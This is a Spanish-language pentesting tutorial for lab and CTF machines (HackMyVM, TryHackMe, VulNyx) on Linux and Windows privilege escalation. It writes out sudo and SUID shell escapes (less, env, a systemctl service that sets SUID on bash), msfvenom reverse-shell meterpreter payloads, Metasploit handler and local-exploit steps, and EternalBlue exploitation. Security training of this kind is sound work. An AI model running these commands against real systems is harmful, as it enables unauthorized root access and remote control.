 ```yaml
---
icon: '7'
---
```


# Escalada de Privilegios + Post Explotación

## Escalada de Privilegios en Linux – Sudo -l

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly" %}

Subimos el payload a través del protocolo FTP. Nos ponemos en escucha mientras carga la página para la **Reverse Shell**. Hacemos tratamiento de la **TTY**.&#x20;

{% embed url="https://gtfobins.github.io/" %}

```bash
sudo -l
```

Con el comando proporcionado en la página debemos de poner la ruta absoluta.

## Escalada de Privilegios en Linux – Sudo -l | Parte 2

{% embed url="https://tryhackme.com/room/brooklynninenine" %}

{% embed url="https://gtfobins.github.io/gtfobins/less/#suid" %}

```bash
sudo -l 
sudo /usr/bin/less /etc/profile
!/bin/sh
```

## Escalada de Privilegios en Linux – Binarios SUID

{% embed url="https://tryhackme.com/room/vulnversity" %}

Otra técnica muy frecuente para escalar privilegios en Linux es la enumeración de binarios **SUID**, donde podremos conocer que binarios tienen **setuid 0** y podemos utilizarlos para escalar privilegios en Linux.

```bash
find / -perm -4000 2>/dev/null
```

En el directorio `/tmp`, creamos un archivo en **bash** con este contenido.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /in/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Ejecutamos.

```bash
bash archivo.sh
```

Hemos abusado de un binario. Ya somos **root**.

```bash
bash -p
```

## Escalada de Privilegios en Linux – Binarios SUID | Parte 2

{% embed url="https://vulnyx.com/#basic" %}

```
find / -perm -4000 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```bash
env /bin/sh -p
```

## Escalada de Privilegios Automática con Metasploit en Linux & Windows

{% embed url="https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing" %}

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP máquina atacante> LPORT=4444 -f exe -o virus.exe
```

Si no es de 64 bits.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP máquina atacante> LPORT=4444 -f exe -o virus.exe
```

Lo compartimos en un servidor en Python.

```bash
python3 -m http.server 80
```

Ponemos la IP en el buscador y nos descargamos el Python. Nos ponemos en escucha mediante **Metasploit**.

```
msfconsole
use multi/handler
show options
set LHOST <IP máquina atacante>
set PAYLOAD windows/meterpreter/reverse_tcp
run 
```

Ejecutamos nuestro payload. Somos un usuario normal por lo que hay que escalar privilegios.

```bash
background 
search local_exploit_suggester
show options
sessions -l
set SESSION 1 
run
```

Nos salen los exploits operativos pero hay que probar uno a uno.

```bash
use windows/local/tokenmagic
show options
set SESSION 1
set LHOST <IP máquina atacante>
set LPORT 5555
run
```

## Enumeración de Usuarios en Sistemas Windows

{% embed url="https://mega.nz/file/zIBTHZjT#IOsj05Xn0R4n7vlGy_gv0wvFJ1aZFT5uSW3nXK6KmD0" %}

```bash
msfconsole 
search eternalblue 
use 0
show options
set RHOSTS <IP máquina víctima>
run
```

En meterpreter.

```bash
shell
net users
```

El comando `net users` para poder ver los usuarios existentes dentro de un sistema Windows.
